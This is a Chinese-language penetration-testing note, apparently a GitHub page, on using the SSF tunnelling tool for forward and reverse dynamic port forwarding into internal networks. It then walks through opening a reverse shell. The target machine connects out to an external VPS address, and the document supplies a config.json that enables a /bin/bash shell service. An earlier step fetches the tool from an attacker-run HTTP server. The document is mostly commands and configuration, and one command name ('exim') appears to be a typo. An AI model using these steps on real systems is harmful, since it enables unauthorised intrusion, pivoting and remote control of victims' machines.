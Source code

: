 ssf反向动态转发与正向的区别&反弹shell
===
					   	                                   
## 正向动态转发（要访问的是ssfd服务端的网络）
当我们要去连接内网的时候，可以直接访问到

ssf服务端设置（访问这个网络）

```
./ssfd -p 1080
python -m SimpleHTTPServer 8000
wget -r http://192.168.28.148:8000/ssf

ssf客户端设置：
./ssf -D 1089 -p 8080 VPS-IP
```
## 反向动态转发（要访问的是ssf客户端的网络）
当我们要连接内网，但是无法直接访问内网机器。如果内网机器可以出网，那么就可以让内网机器来连我们。

```
vps上设置监听：
./ssfd -p 8080

内网机器来主动连接我们：
./ssf -F 1089 -p 8080 VPS-IP
./ssf -F 1089 -p 8080 18.167.19.3
```
## 案例一：访问谷歌
```
vps设置：./ssfd -p 8080
攻击机器设置：./exim -D 1089 -p 1080 18.167.19.3
proxychains firefox 
./ssf -D 1089 -p 8080 18.167.19.3
```
## 案例二：弹shell
### 反向shell

```
【vps设置】
./ssfd -p 8080 -c config.json /b

【目标机器】
./ssf -Y shell要接收的端口 VPS -c config.json -p VPS监听的端口

./ssf -Y 8888 45.62.123.226 -c config.json -p 8080
```
nc 127.0.0.1 8888

### config.json参考配置
```
{
  "ssf": {
    "arguments": "",
    "circuit": [],
    "tls" : {
      "ca_cert_path": "./certs/trusted/ca.crt",
      "cert_path": "./certs/certificate.crt",
      "key_path": "./certs/private.key",
      "key_password": "",
      "dh_path": "./certs/dh4096.pem",
      "cipher_alg": "DHE-RSA-AES256-GCM-SHA384"
    },
    "http_proxy" : {
      "host": "",
      "port": "",
      "user_agent": "",
      "credentials": {
        "username": "",
        "password": "",
        "domain": "",
        "reuse_ntlm": "true",
        "reuse_nego": "true"
      }
    },
    "services": {
      "datagram_forwarder": { "enable": true },
      "datagram_listener": {
        "enable": true,
		"shell": { "enable": false },
        "gateway_ports": false
      },
      "stream_forwarder": { "enable": true },
      "stream_listener": {
        "enable": true,
        "gateway_ports": false
      },
      "copy": { "enable": false },
      "shell": {
        "enable": true,
        "path": "/bin/bash",
        "args": ""
      },
      "socks": { "enable": true }
    }
  }
}
```